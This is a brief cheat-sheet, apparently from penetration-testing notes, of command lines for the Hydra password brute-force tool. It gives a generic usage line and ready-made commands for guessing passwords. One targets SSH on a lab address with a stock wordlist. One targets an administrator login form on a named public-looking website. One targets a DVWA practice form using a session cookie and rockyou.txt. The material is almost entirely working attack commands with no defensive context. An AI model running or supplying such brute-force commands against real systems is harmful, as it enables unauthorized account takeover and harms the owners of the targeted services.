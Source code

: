 
## HYDRA
Is a brute force tool  
  
```  
Usage : hydra -l <user> -P <password list> <protocol>://<ip>:<port> -t <threads> -V  


hydra -l root -P /usr/share/wordlists/metasploit/unix \_passwords.txt ssh://10.0.2.6:22 -t 4 -V

```

hydra -l {username} -P {password list path} -s {port} -f {Site Address} http-post-form “{Path to postback page}:{USERNAME\_NAME}=^USER^&{PASSWORD\_NAME}=^PASS^:{failed login text}”

```
hydra -l hydra -P password.lst -s 80 -f www.sillychicken.co.nz http-post-form “/administrator/index.php:usrname=^USER^&pass=^PASS^&submit=Login:Incorrect Username”
```


### HYDRA with PHPSESSID

```
hydra 192.168.0.105 -V -l admin -P ~/rockyou.txt http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=rname and/or password incorrect:H=Cookie: PHPSESSID=f8ucrbu0qmta4ettc3208gcvnq; security=low" -t 64

```